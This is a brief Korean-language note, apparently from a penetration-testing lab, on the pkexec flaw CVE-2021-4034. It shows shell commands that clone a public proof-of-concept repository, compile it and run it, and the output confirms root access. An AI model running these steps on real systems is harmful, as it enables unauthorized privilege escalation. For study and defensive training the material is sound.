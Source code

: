 pkexec 도구에서 memory corruption 취약점인 CVE-2021-4034가 발견됐다.

**PoC 다운 및 컴파일**
```powershell
cry0l1t3@nix02:~$ git clone <https://github.com/arthepsy/CVE-2021-4034.git>
cry0l1t3@nix02:~$ cd CVE-2021-4034
cry0l1t3@nix02:~$ gcc cve-2021-4034-poc.c -o poc
```

**권한 상승**
```powershell
cry0l1t3@nix02:~$ ./poc

# id

uid=0(root) gid=0(root) groups=0(root)
```